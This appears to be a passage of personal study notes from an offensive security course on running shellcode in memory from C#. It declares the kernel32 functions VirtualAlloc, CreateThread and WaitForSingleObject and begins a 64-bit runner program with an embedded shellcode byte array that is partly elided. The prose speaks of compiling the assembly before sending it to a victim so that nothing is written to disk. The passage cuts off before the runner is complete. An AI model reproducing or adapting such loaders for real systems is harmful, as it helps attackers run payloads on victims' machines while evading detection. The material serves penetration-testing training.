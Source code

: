 ```c#
    }

}
```

- When calling Win32 APIs from PowerShell (in the previous module), we demonstrated the straightforward _Add-Type_ method and the more complicated reflection technique. However, the complexity of reflection was well worth it as we avoided writing C# source code and compiled assembly files temporarily to disk during execution. Luckily, when dealing with C#, we can compile the assembly before sending it to the victim and execute it in memory, which will avoid this problem.

## Shellcode Runner in C\#

- A signaled state indicates a resource is available for a process or thread to use it. A not-signaled state indicates the resource is in use.
- import Win32 APIs to execute shellcode in memory
```c#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

#### Example code 64-bit

- set CPU arch to x64
```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;
```